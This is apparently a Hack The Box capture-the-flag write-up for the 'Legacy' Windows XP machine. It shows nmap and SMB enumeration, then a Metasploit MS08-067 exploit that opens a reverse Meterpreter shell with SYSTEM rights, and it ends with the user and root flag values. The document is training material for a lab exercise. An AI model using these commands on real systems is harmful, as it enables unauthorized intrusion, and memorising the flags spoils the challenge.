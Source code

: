 # Legacy 

## IP
> 
> 10.10.10.4
## nmap Scan
```
nmap -T4 -A 10.10.10.4 -Pn
```

![Image 1](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Legacy/Pasted%20image%2020210728033315.png)

## System Info 
>
 OS: Windows XP (Windows 2000 LAN Manager)
 Computer name: legacy


## Open Ports
       
>
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds

Both SMB 

## smbclient
```
smbclient -L ///10.10.10.4//
```

> Did not work

After Work Notes, my command was incorrect therefore I got no input, the correct command was:

```
smbclient -L \\\\10.10.10.4\\
```

## Metasploit 

### Search for SMB version 
```
msfconsole
search smb
use auxiliary/scanner/smb/smb_version
set rhost 10.10.10.4
run
```

>
No SMB version detected
Found that Machine is running Windows XP SP3 (language:English)


![Image 2](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Legacy/Pasted%20image%2020210728034248.png)

After searching online for exploits in this version I found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)

We can use Metasploit to gain a shell inside the machine 

### Gaining Access to the machine 
```
msfconsole
use exploit/windows/smb/ms08_067_netapi
set rhost 10.10.10.4
set lhost tun0
run
```

Now we have access to the machine

#### Finding more information
```getuid```
>
Server username: NT AUTHORITY\SYSTEM

We are root

```sysinfo```
>
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

Our Meterpreter and the Architecture of the machine are the same x86, that is good.

Lets open cmd 

```shell```

#### Finding the Flag

```
cd c:\
cd Documents and Settings
cd john
cd Desktop
type user.txt
```

And like that we got the Flag!

>e69af0e4f443de7e36876fda4ec7644f

If we want to find the root flag (no points)

```
cd c:\
cd Documents and Settings
cd Administrator
cd Desktop
type root.txt
```

>	
993442d258b0e0ec917cae9e695d5713
